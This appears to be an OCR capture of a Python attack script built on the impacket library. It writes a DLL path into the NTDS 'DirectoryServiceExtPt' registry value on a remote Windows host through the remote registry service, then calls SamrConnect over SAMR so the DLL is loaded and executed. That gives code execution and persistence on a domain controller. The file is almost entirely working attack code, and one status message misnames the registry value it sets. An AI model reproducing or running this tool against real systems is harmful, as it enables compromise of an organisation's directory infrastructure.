 ```
from impacket.dcerpc.v5 import transport, rrp, scmr, rpcrt, samr
from impacket.smbconnection import SMBConnection

def trigger_samr(remoteHost, username, password):

    print("[*] Connecting to SAMR RPC service")

    try:
        rpctransport = transport.SMBTransport(remoteHost, 445, r'\samr', username, password, "", "", "", "")
        dce = rpctransport.get_dce_rpc()
        dce.connect()
        dce.bind(samr.MSRPC_UUID_SAMR)
    except (Exception) as e:
        print("[x] Error binding to SAMR: %s" % e)
        return

    print("[*] Connection established, triggering SamrConnect to force load the added DLL")

    # Trigger
    samr.hSamrConnect(dce)

    print("[*] Triggered, DLL should have been executed...")

def start(remoteName, remoteHost, username, password, dllPath):

    winreg_bind = r'ncacn_np:445[\pipe\winreg]'
    hRootKey = None
    subkey = None
    rrpclient = None

    print("[*] Connecting to remote registry")

    try:
        rpctransport = transport.SMBTransport(remoteHost, 445, r'\winreg', username, password, "", "", "", "")
    except (Exception) as e:
        print("[x] Error establishing SMB connection: %s" % e)
        return

    try:
        # Set up winreg RPC
        rrpclient = rpctransport.get_dce_rpc()
        rrpclient.connect()
        rrpclient.bind(rrp.MSRPC_UUID_RRP)
    except (Exception) as e:
        print("[x] Error binding to remote registry: %s" % e)
        return

    print("[*] Connection established")
    print("[*] Adding new value to SYSTEM\\CurrentControlSet\\Services\\NTDS\\DirectoryServiceExtPtr")

    try:
        # Add a new registry key
        ans = rrp.hOpenLocalMachine(rrpclient)
        hRootKey = ans['phKey']
        subkey = rrp.hBaseRegOpenKey(rrpclient, hRootKey, "SYSTEM\\CurrentControlSet\\Services\\NTDS")
        rrp.hBaseRegSetValue(rrpclient, subkey["phkResult"], "DirectoryServiceExtPt", 1, dllPath)
    except (Exception) as e:
        print("[x] Error communicating with remote registry: %s" % e)
        return
```